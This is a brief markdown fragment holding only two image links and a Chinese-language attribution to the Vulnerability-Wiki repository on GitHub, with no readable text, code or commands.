





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
